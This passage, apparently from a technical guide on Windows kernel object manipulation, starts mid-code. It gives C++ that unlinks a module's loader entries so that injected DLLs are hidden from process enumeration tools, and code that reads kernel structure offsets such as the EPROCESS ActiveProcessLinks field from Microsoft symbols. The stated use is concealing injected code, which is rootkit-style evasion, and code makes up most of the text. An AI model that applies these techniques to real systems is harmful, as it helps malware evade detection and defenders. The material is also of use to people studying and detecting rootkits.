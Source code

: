 ```cpp
        pLdrEntry->InMemoryOrderLinks.Blink->Flink = pLdrEntry->InMemoryOrderLinks.Flink;
        pLdrEntry->InMemoryOrderLinks.Flink->Blink = pLdrEntry->InMemoryOrderLinks.Blink;

        pLdrEntry->InInitializationOrderLinks.Blink->Flink = pLdrEntry->InInitializationOrderLinks.Flink;
        pLdrEntry->InInitializationOrderLinks.Flink->Blink = pLdrEntry->InInitializationOrderLinks.Blink;

        break;
    }

    pEntry = pEntry->Flink;
}
```

**Use Case:** Hide injected DLLs from process enumeration tools.

## Kernel Structure Offset Discovery

DKOM requires knowing exact field offsets in kernel structures, which change across Windows versions:

### Static Analysis Method

1. Download Windows symbols from Microsoft Symbol Server
2. Parse PDB files to extract structure layouts
3. Calculate field offsets programmatically

```cpp
// Example using dbghelp.dll
HANDLE hProcess = GetCurrentProcess();
SymInitialize(hProcess, NULL, FALSE);

ULONG64 ullBaseAddress = SymLoadModuleEx(hProcess, NULL, "ntkrnlmp.pdb", NULL, 0x1000000, 0, NULL, 0);

SYMBOL_INFO* pSymbol = (SYMBOL_INFO*)malloc(sizeof(SYMBOL_INFO) + MAX_SYM_NAME);
pSymbol->SizeOfStruct = sizeof(SYMBOL_INFO);
pSymbol->MaxNameLen = MAX_SYM_NAME;

// Get EPROCESS structure information
if (SymGetTypeFromName(hProcess, ullBaseAddress, "_EPROCESS", pSymbol)) {
    // Get ActiveProcessLinks field offset
    ULONG ulOffset = 0;
    ULONG ulTypeId = pSymbol->TypeIndex;

    if (SymGetTypeInfo(hProcess, ullBaseAddress, ulTypeId, TI_GET_OFFSET, &ulOffset)) {
        printf("ActiveProcessLinks offset: 0x%X\n", ulOffset);
    }
}
```
